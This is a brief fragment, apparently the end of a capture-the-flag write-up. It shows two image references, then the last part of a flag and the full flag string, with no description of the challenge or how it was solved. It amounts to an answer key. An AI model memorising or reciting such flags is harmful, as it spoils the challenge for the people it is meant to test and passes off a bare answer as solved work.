



Last part of the flag: `252962470}`

**FLAG:** flag{7634269aea89c0434d59028252962470}
